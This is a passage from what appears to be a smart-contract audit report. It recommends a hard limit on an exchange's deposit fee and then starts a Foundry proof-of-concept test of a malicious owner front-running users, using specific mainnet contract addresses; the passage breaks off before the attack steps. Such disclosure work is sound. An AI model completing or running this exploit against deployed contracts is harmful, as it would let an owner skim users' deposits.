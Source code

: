## Recommendation
Add hard-limit to deposit fee to bound attack vector or otherwise rate-limit how often/fast the deposit fee can be changed by owner.

## Reference
Contracts in scope, Foundry

## Proof of concept
1. Create empty Foundry project:
```shell
forge init
```

2. Start local anvil fork of mainnet:
```shell
anvil --fork-url <mainnet rpc url>
```

3. Add the following test suite instead of template:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.20;

import {Test, console} from "forge-std/Test.sol";

interface IDefaultDepositContract {}

interface IExchange {
    function getPendingDepositAmount(address from, address tokenAddress) external returns (uint248);

    function setDepositParams(uint256 freeDepositMax, uint256 freeDepositRemained, uint256 freeSlotPerBlock, uint256 depositFee) external;

    function deposit(address from, address to, address tokenAddress, uint248 amount, bytes calldata extraData) external payable;

    function withdrawExchangeFees(address token, address recipient) external;
}


contract PoC is Test {
    IDefaultDepositContract private immutable defaultDepositContract = IDefaultDepositContract(0x54D7aE423Edb07282645e740C046B9373970a168);
    IExchange private immutable exchange = IExchange(0x9C07A72177c5A05410cA338823e790876E79D73B);

    function setUp() external {}

    function testMaliciousOwnerFrontrunUsers() external {
        // Setup accounts
        console.log("------Setting up accounts------");
        address bob = makeAddr("bob");  
        vm.label(bob, "bob");
        address alice = makeAddr("alice");  
        vm.label(alice, "alice");
        address exchangeOwner = 0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD;
        vm.label(exchangeOwner, "exchangeOwner");

        address ethDepositAddress = address(0);

        // Bob and Alice both given 5 ether to deposit
        uint248 depositAmount = 5 ether;
        deal(bob, depositAmount);
```